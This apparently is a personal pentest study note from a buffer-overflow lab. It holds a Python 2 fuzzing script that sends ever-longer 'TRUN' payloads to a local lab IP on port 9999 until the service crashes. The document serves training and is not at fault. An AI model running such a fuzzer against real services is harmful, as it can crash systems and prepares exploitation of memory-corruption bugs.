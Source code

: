 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

2-Fuzzing

~~~python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(("192.168.253.129",9999))

		s.send(('TRUN /.:/' + buffer))
		s.close()
		buffer = buffer + "A" * 100

	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer))
		sys.exit()

~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
